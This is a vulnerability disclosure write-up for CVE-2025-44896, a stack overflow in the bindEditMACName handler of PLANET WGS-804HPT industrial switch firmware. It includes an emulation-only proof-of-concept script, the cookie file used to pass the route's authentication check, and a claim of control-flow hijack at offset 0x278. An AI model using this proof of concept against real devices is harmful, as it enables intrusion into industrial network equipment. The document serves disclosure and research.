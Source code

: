 ```yaml
---
title: web_acl_bindEdit_post-bindEditMACName-StackOverflow
date: 2025-04-18 15:33:38
tags: cve
---
```


**Affected Product**: FW-WGS-804HPT

**Affected Firmware Versions**:  v1.305b241111

**Vulnerability Type**: Buffer Overflow

**CVE Identifier**: CVE-2025-44896



# FW-WGS-804HPT_v1.305b241111 introduced

The WGS-804HPT-V2 is a ruggedized industrial-grade Ethernet switch designed for harsh environments and mission-critical applications. As part of PLANET Technology's Industrial Automation Series, this 8-port managed switch combines Power over Ethernet (PoE+) capabilities with industrial durability, making it ideal for building automation, smart infrastructure, and IoT deployments.



Official Product Page: https://www.planet.com.tw/en/product/wgs-804hpt-v2





# web_acl_bindEdit_post-bindEditMACName

I discovered a  stack overflow vulnerability in the Planet router.

By analyzing the dispatcher file in the bin directory, I found that the function web_acl_bindEdit_post  contains a stack overflow vulnerability.

The stack overflow can be triggered by bindEditMACName key value, which leads to a strcpy stack overflow.

![image-20250321152223389](../res/202503211522484-174514072222116.png)

In the main function, there is an account authentication detection. We create a cookie_0 in the tmp directory, with the content of "20 0 0", and its function is to create a cookie with sufficient permissions to access this route.

```json
20 0 0
```



![](../res/image-20250416155836658-174479031857116.png)

可以看到代码中存在由strcpy造成的栈溢出

# How can we simulate a router

﻿The content of the **poc.py** file is as follows:

```json
import os


a = 0xC20
var_name = "bindEditMACName"
b = 'a' * 0x300
c = "bindEditMAC=111"

poc_content = f"&cmd={a}&{var_name}={b}&{c}"
with open('poc', 'w') as f:
    f.write(poc_content)

command = (
    "sudo chroot . ./qemu-mips-static "
    "-E REQUEST_METHOD=POST "
    "-E HTTP_COOKIE='hid=0' "
    "-L ./lib "
    "-g 1234 "
    "./dispatcher.cgi "
    "< poc"  
)


os.system(command)



```

# Attack result

![image-20250416160503196](../res/image-20250416160503196-174479070420817-17451482829331.png)

![image-20250416160624802](../res/image-20250416160624802.png)



![image-20250416160732429](../res/image-20250416160732429-174479085346818.png)

Through the above image, we can see that we have overflowed to 0x278 and successfully hijacked the control flow. If necessary, more can be overflowed.
